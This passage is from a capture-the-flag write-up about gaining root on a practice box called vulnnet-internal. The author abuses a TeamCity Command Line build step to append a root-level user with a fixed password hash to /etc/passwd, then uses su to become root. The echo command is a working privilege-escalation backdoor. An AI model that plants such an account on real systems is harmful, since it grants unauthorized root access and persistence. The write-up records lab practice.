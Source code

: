 grep: catalina.2021-05-07.log: Permission denied
# etc, stuff
{% endhighlight %}

We have a selection to choose from. Only one works; try and find out which!

Once we log in - now what? I've never seen this thing before and what the hell does it do? According to [Wikipedia](https://en.wikipedia.org/wiki/TeamCity), it's a:

>build management and continuous integration server 

Yeah cool. Can I get root or not? According to the [documentation](https://www.jetbrains.com/help/teamcity/command-line.html):

>Using the Command Line build runner, you can run any script supported by the OS.

Wonderful. So the next part was all GUI but it was basically create a project, add a Build Step which was a Custom Script, in my case it was adding a new user to /etc/passwd; the syntax was:

``
echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
``

There a few bits you have to fill in and then a 'run' button will appear near the top of the page; click it and it completes; the project doesn't need to do anything else. It's not too hard to figure out.

Then in my shell:

{% highlight shell %}
sys-internal@vulnnet-internal:/TeamCity/logs$ su root2
Password: 
root@vulnnet-internal:/TeamCity/logs# id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
vulnnet-internal
Fri May  7 04:32:56 CEST 2021
root@vulnnet-internal:/TeamCity/logs#
{% endhighlight %}

Yeah baby, that's the stuff. Good box TheCyb3rW0lf
